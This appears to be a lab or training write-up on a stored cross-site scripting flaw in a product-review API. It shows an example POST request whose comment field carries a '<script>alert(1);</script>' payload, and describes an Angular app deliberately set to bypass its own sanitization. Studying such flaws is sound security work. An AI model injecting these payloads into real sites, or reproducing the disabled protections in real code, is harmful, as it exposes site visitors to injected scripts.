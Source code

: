 # Stored Cross Site Scripting (XSS)
The stored variant XSS, like other variations, inject scripts into benign, non-attacker controlled websites.  The distinction is stored XSS  _stores_ the injected scripts/code on the server, resulting in the script persisting beyond the current HTTP session.

## Exploitation
**Prerequisites:** Authenticated, Ordered the Product
**Location:** _POST /productreviews_

While posting reviews HTML tags, including script, can be specified in the _comment_ parameter. The Angular application is configured to bypass Angular's two primary protections: encoding all interpolated variables and auto-removal of script tags which prevent Stored XSS (or any other XSS).  Below is an exploitation example:

    POST /productreviews
    raw:
    {
    "product" : {"id" : 1},
    "title" : "Disgusting",
    "grade" : 1,
    "comment" : "<script>alert(1);</script>"
    }

To execute the script go to the ProductPage of the review you POSTed to, in our case Product 1 or Vanilla Candle.

Successful exploitation looks like:

    {
        "success": true,
        "code": 200,
        "message": "Success"
    }
